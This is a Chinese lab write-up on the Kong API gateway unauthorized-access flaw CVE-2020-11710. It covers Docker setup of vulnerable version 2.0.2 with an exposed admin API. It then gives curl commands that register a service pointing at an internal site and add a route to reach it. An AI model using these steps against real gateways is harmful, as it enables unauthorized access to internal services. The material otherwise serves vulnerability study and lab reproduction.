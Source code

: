 # Kong未授权访问漏洞

## 漏洞描述


Kong未授权访问漏洞（CVE-2020-11710）是指在Kong API网关系统中存在未授权访问漏洞，攻击者可以利用该漏洞获取或修改管理员凭证、读取任意文件以及远程执行任意代码。该漏洞由于Kong API网关系统未对请求进行严格验证导致。

## 影响版本


Kong < V2.0.3

## 环境搭建

创建Docker网络

```
[root@localhost ~]# docker network create kong-net
8c13241e04425db93e67c0c69c1adb7ca8adcb2701d67b43f2c20f4e76b9d613
```

拉取并启动PostgreSQL容器

```
docker run -d  --network=kong-net  -p 5432:5432 -e "POSTGRES_USER=kong"   -e "POSTGRES_DB=kong"  -e "POSTGRES_PASSWORD=kong"  postgres:9.6
```

数据库安装后，可进入postgres容器，创建kong用户及数据库kong

```
docker exec -it container_id /bin/bash
#切换用户
su postgres
#进入命令
psql;
#创建用户kong及密码
create user kong with password 'kong';
#创建数据库kong
create database kong owner kong;
#查看创建后的数据库(可省)
\l
```

初始化数据库

```
docker run --rm \
     --network=kong-net \
     -e "KONG_DATABASE=postgres" \
     -e "KONG_PG_HOST=kong-database" \
     -e "KONG_PG_USER=kong" \
     -e "KONG_PG_PASSWORD=kong" \
     -e "KONG_CASSANDRA_CONTACT_POINTS=kong-database" \
     kong:2.0.2 kong migrations bootstrap
```

启动kong

```
docker run -it  \
     --network=kong-net \
     -e "KONG_DATABASE=postgres" \
     -e "KONG_PG_HOST=kong-database" \
     -e "KONG_PG_PASSWORD=kong" \
     -e "KONG_CASSANDRA_CONTACT_POINTS=kong-database" \
     -e "KONG_PROXY_ACCESS_LOG=/dev/stdout" \
     -e "KONG_ADMIN_ACCESS_LOG=/dev/stdout" \
     -e "KONG_PROXY_ERROR_LOG=/dev/stderr" \
     -e "KONG_ADMIN_ERROR_LOG=/dev/stderr" \
     -e "KONG_ADMIN_LISTEN=0.0.0.0:8001, 0.0.0.0:8444 ssl" \
     -p 8000:8000 \
     -p 8443:8443 \
     -p 8001:8001 \
     -p 8444:8444 \
     kong:2.0.2
```



## 漏洞利用

访问http://192.168.32.130:8000

![image-20220728171440133](../../.gitbook/assets/image-20220728171440133.png)

利用 Admin Restful API ，在Kong Gateway上注册一个新的"服务"(web API) 指向内网的敏感站点 http://192.168.32.130:8000

```sh
$ curl -i -X POST http://127.0.0.1:8001/services --data name=target --data url='http://192.168.32.130:8000'
```

![image-20220728171558797](../../.gitbook/assets/image-20220728171558797.png)

添加一个路由，`paths[]`的值为 `/site1`，name的值为 `111111`

```
curl -i -X POST http://127.0.0.1:8001/services/target/routes  --data 'paths[]=/site1' --data 'name=111111'
```

![image-20220728171731434](../../.gitbook/assets/image-20220728171731434.png)

![image-20230129212925258](../../.gitbook/assets/image-20230129212925258.png)